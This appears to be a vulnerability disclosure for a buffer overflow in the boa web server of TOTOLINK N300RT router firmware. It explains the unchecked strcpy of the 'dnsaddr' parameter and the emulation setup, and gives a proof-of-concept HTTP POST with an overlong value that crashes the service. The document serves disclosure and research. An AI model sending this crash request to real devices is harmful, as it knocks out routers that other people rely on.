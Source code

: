 ## **Description**

A buffer overflow vulnerability was discovered in the TOTOLINK firmware N300RT-Ad-V4.0.0-B20211109.1137. The vulnerability arises from the improper input validation of the `'dnsaddr'` parameter in the 'formDhcpv6s' interface of the file boa.

## ​**Affected Product**

- ​**Brand**: TOTOLINK
- ​**Product**: N300RT
- ​**Version**: V4.0.0-B20211109.1137

The firmware can be downloaded from the official website.  
The vulnerability was confirmed using ​**FirmAE** for firmware emulation:

```sh
sudo ./run.sh -d totolink ../FIRMWARE/TOTOLINK-N300RT-Ad-V4.0.0-B20211109.1137.web
```

**Default credentials**:

- ​**Username**: `admin`
- ​**Password**: `admin`

The result of the simulation is as follows: 
![sim_res](./img/sim_res.png)

## ​**Vulnerability Analysis**

### ​**Key Vulnerable Code**

Using ghidra we known that the vulnerability code in function 'FUN_0044f0b8' is below:
![vulner_code.png](./img/vulner_code.png)
Because of the problem of ghidra decompilation, the code in `FUN_00402610()` should actually use the strcpy function to copy the parameters obtained by POST to an address.
![vulner_code_1.png](./img/vulner_code_1.png)
- ​**web_get_var** retrieves POST parameters.
- **strcpy()** is used without length checks, leading to a ​buffer overflow.​

## **Proof of Concept (PoC)**
### ​**Exploit Request**
We use burpsuite to capture a normal POST packet for test.
Example package
```http
POST /boafrm/formDhcpv6s HTTP/1.1  
Host: 192.168.0.1  
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0  
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8  
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2  
Accept-Encoding: gzip, deflate  
Content-Type: application/x-www-form-urlencoded  
Content-Length: 313  
Origin: http://192.168.0.1
Connection: close  
Referer: http://192.168.0.1/tcpipwan.htm
Upgrade-Insecure-Requests: 1  
  
enabledpchv6s=1&dnsaddr=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
```

After the request the `boa` process will crash.
![result](./img/result.png)
